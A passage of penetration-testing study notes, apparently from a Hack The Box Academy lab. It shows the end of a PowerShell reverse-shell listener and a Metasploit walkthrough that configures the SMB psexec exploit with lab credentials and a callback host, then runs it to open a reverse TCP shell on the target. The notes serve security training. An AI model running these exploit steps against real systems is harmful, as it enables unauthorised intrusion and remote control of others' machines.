 ```powershell
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
```
## Automating Payloads and Delivery with Metasploit
- [Metasploit](https://www.metasploit.com) is an automated framework for exploitation developed by Rapid7 

How to launch it:
```shell-session
sudo msfconsole
```
- after launch we can search modules like this:
```shell-session
search smb
```
- this searches every modules that has `smb` in it
- after getting the list of modules we can use them:
```shell-session
use 56
```
or
```shell-session
use exploit/windows/smb/psexec
```
- to show the options simply type:
```shell-session
show options
```
- in order to configure the options just type:
```shell-session
set <OPTION> <PARAMETER>
```
Example:
```shell-session
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```
- after configuration, just type `run` or `exploit` in order to start the process
```shell-session
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
```